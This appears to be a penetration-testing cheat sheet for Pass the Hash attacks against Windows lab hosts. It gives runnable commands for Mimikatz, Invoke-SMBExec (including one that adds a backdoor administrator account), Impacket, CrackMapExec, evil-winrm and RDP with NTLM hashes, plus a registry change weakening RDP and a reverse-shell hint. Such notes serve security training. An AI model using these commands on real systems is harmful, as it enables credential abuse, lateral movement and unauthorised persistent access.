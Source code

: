 ```yaml
---
description: >-
  Is a technique where an attacker uses a password hash instead of the plain
  text password
---
```


# Pass the Hash (PtH)

the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

* Dumping the local SAM database from a compromised host.
* Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
* Pulling the hashes from memory (lsass.exe).

### Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

* `/user` - The user name we want to impersonate.
* `/rc4` or `/NTLM` - NTLM hash of the user's password.
* `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> Note that: Mimikatz is one of the most useful tools that we will be using in the future for active directory boxes. Some additional points to be noted about Mimikatz.
>
> 1. You can run it with just mimikatz.exe and then slowly specify other commands.
> 2. To extract the hashes presented in the current session, instead of running `sekurlsa::pth` we can run `sekurlsa::logonpasswords` additional information could be found in the [`HackTricks`](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz) website

### Invoke-TheHash(PS)

To download the tools, access [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) github.

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

<pre class="language-powershell-session"><code class="lang-powershell-session"><strong>Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add &#x26;&#x26; net localgroup administrators mark /add" -Verbose
</strong></code></pre>

* `Target` - Hostname or IP address of the target.
* `Username` - Username to use for authentication.
* `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
* `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
* `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

> we can use reverse shell payload in the Command section of the code (`PowerShell #3 (Base64)`) and for the target we can specify machine name instead of IP address (either would work).

### Impacket

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Following tools also works with PtH:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### CrackMapExec

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### evil-winrm

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

### RDP

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

> for this method to work we have to set the value for `DisableRestrictedAdmin` as 0.
>
> To enable run:
>
> ```cmd-session
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
> ```
>
> &#x20;Otherwise we will get the following error.
>
> <img src="../../../.gitbook/assets/image (12) (1) (1).png" alt="" data-size="original">




